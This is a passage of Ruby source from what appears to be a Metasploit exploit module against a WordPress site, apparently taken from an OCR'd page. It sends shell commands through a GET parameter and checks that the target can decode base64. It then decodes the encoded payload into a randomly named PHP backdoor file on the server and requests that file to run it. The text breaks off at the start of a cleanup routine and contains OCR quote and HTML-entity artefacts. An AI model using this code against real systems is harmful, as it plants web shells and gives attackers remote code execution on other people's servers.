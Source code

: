 ```

uri = normalize_uri(datastore[‘TARGETURI’])

# Test if base64 is on target

test_string = ‘YmFzZTY0c3BvdHRlZAo=’

res = send_request_cgi!(

‘method’   => ‘GET’,

‘uri’      => uri,

‘cookie’ => cookie,

‘vars_get’ => {

‘p’ => post_id,

‘0’ => “echo #{test_string} | base64 -d”

}

)

fail_with(Failure::NotFound, ‘Unable to retrieve response to base64 command’) unless res && res.code == 200 && !res.body.empty?

```
fail_with(Failure::NotFound, "Can't find base64 decode on target") unless res.body.include?("base64spotted")
# Execute payload with base64 decode
@backdoor = Rex::Text.rand_text_alpha(10)
encoded = Rex::Text.encode_base64(payload.encoded)
res = send_request_cgi!(
  'method'   =&gt; 'GET',
  'uri'      =&gt; uri,
  'cookie' =&gt; cookie,
  'vars_get' =&gt; {
    'p' =&gt; post_id,
    '0' =&gt; "echo #{encoded} | base64 -d &gt; #{@backdoor}.php"
  }
)

fail_with(Failure::NotFound, 'Failed to send payload to target') unless res &amp;&amp; res.code == 200 &amp;&amp; !res.body.empty?
send_request_cgi(
  'method'  =&gt;  'GET',
  'uri'     =&gt;  normalize_uri(datastore['TARGETURI'], "#{@backdoor}.php"),
  'cookie'  =&gt;  cookie
) 
```

end

def wp_cleanup(shell_name, post_id, cookie)

print_status(‘Attempting to clean up files…’)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘admin-ajax.php’)

res = send_request_cgi(
```